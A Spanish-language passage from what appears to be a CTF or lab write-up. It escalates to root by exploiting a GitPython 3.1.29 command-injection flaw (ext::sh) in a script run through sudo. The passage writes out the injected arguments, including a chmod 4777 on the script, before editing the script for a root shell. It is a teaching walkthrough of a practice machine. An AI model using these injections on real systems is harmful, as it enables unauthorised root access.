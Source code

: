 si nos fijamos un poco en el código del script vemos que importa algo raro que no acostumbramos a ver:

![image](../zimages/Pasted%20image%2020241026160559.png)

Así que vamos a buscar vulnerabilidades/exploits en internet, en mi caso al buscarlo encontré esta página 'https://security.snyk.io/vuln/SNYK-PYTHON-GITPYTHON-3113858', donde nos dice que para solucionar esto habría que actualizar GitPyhton, que es una librería de python:

![image](../zimages/Pasted%20image%2020241026160806.png)

Vamos a ver que versión es en nuestra máquina víctima con el comando `pip freeze`:

![image](../zimages/Pasted%20image%2020241026161019.png)

Vemos que es la 3.1.29, según esa web, es vulnerable así que vamos a probarlo. Si nos fijamos en la PoC que propone, vemos que es muy parecido al script de python de la máquina:

![image](../zimages/Pasted%20image%2020241026161151.png)

Parece que lo que hace es poner `ext::sh -c touch% /tmp/pwned` en el parámetro que nos manda poner la máquina víctima "url_to_clone". Vamos a ejecutarlo:

```bash
sudo python3 /opt/internal_apps/clone_changes/clone_prod_change.py 'ext::sh -c touch% /home/prod/samucrow'
```

Y vemos que, efectivamente nos crea el archivo en el directorio, pero nos lo crea como root:

![image](../zimages/Pasted%20image%2020241026162334.png)

Es decir, tenemos ejecución remota de comandos, vamos a probar dandole permisos de escritura al mismo script en python al que tenemos acceso como root:

```bash
sudo python3 /opt/internal_apps/clone_changes/clone_prod_change.py "ext::sh -c chmod% 4777% /opt/internal_apps/clone_changes/clone_prod_change.py"
```

Ahora si hacemos un  `ls -l`, vemos que tenemos el permiso, vamos a editar el script para que nos de una shell como root:

![image](../zimages/Pasted%20image%2020241026164328.png)

Ahora lo ejecutamos, pero siempre poniendo algo como parámetro ya que no nos deja ejecutarlo  si no, se puede poner cualquier palabra:

```bash
sudo python3 /opt/internal_apps/clone_changes/clone_prod_change.py rooted¬¬
```

Ya somos root:

![image](../zimages/Pasted%20image%2020241026164550.png)

![image](../zimages/Pasted%20image%2020241026165105.png)

# ./ROOTED

